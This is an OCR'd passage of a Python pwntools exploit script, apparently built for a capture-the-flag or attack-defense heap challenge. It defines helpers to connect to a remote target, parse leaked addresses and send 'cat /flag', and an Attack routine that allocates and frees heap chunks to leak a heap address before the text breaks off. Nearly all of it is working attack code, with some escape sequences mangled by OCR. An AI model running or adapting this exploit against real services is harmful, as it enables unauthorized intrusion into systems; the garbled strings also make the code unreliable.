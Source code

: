 ```
    sh.sendline(vuln_addr)
    sh.recvuntil('num:n')
    sh.send(vuln_byte)

def get_address(sh,info=None,start_string=None,address_len=None,end_string=None,offset=None,int_mode=False):
    if start_string != None:
        sh.recvuntil(start_string)
    if int_mode :
        return_address = int(sh.recvuntil(end_string,drop=True),16)
    elif address_len != None:
        return_address = u64(sh.recv()[:address_len].ljust(8,'x00'))
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string,drop=True).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string,drop=True).ljust(4,'x00'))
    if offset != None:
        return_address = return_address + offset
    if info != None:
        log.success(info + str(hex(return_address)))
    return return_address

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

def get_gdb(sh,gdbscript=None,stop=False):
    gdb.attach(sh,gdbscript=gdbscript)
    if stop :
        raw_input()

def Multi_Attack():
    # testnokill.__main__()
    return

def Attack(sh=None,ip=None,port=None):
    if ip != None and port !=None:
        try:
            sh = remote(ip,port)
        except:
            return 'ERROR : Can not connect to target server!'
    try:
        # Your Code here
        creat(sh,0x40,'Chunk0')
        creat(sh,0x40,'Chunk1')
        creat(sh,0xF8,'Chunk2')
        creat(sh,0xF8,'Chunk3')
        creat(sh,0x100,'Chunk4')

        creat(sh,0x100,'Chunk5')
        creat(sh,0x68,'Chunk6')
        creat(sh,0xF8,'Chunk7')
        creat(sh,0x100,'Chunk8')

        delete(sh,2)
        delete(sh,0)
        delete(sh,1)
        creat(sh,0x40,'H')
        show(sh,0)
        heap_address = get_address(sh=sh,info='HEAP ADDRESS IS ',start_string='',address_len=6,offset=-0x28)

        sh.sendline('3')
```